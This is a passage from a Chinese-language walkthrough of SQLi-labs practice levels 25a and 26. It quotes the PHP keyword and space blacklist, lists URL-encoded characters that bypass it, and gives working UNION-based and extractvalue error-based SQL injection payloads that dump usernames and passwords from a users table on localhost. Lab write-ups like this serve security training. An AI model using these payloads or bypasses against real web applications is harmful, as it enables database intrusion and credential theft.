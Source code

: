 1. 源码和上一关类似，过滤机制一样
2. 不同的是整形闭合
3. 不会输出错误信息了，所以不能进行报错注入了
4. 直接上payload

> http://127.0.0.1/sqlilabs2/Less-25a/?id=-1 union select 1,(select group_concat(username,passwoorrd) from users) ,3--+

![2020-1-8-13-55-1](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-8-13-55-1)

## 第二十六关 基于GET错误-你的空格和注释归我所有

### 源码审计
```php
function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/and/i',"", $id);		//Strip out AND (non case sensitive)
	$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
	$id= preg_replace('/[--]/',"", $id);		//Strip out --
	$id= preg_replace('/[#]/',"", $id);			//Strip out #
	$id= preg_replace('/[\s]/',"", $id);		//Strip out spaces
	$id= preg_replace('/[\/\\\\]/',"", $id);		//Strip out slashes
	return $id;
}
```
1. 从源码看除了过滤or和and外还过滤了#和--
2. 还有斜杠和*号和空格

### 绕过方式

* **编码绕过**

    - %09 TAB键（空格）
    - %0A 新建一行（空格）
    - %0C 新的一页
    - %0D return即回车功能 （php-5.2.17,5.3.29成功）
    - %0B TAB键（垂直）
    - %A0 空格 （php-5.2.17成功）

* **括号绕过**

    - 用()绕过,意思就是不使用任何空格

**payload:**
> http://127.0.0.1/sqlilabs2/Less-26/?id=1'%26%26extractvalue(null,concat(0x7e,(select(group_concat(username,'~',passwoorrd))from(security.users)),0x7e))%7c%7c'1

![2020-1-8-18-35-9](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-8-18-35-9)

## 第二十六a关 基于GET错误-你的空格和注释归我所有-字符型-括号

### 源码审计
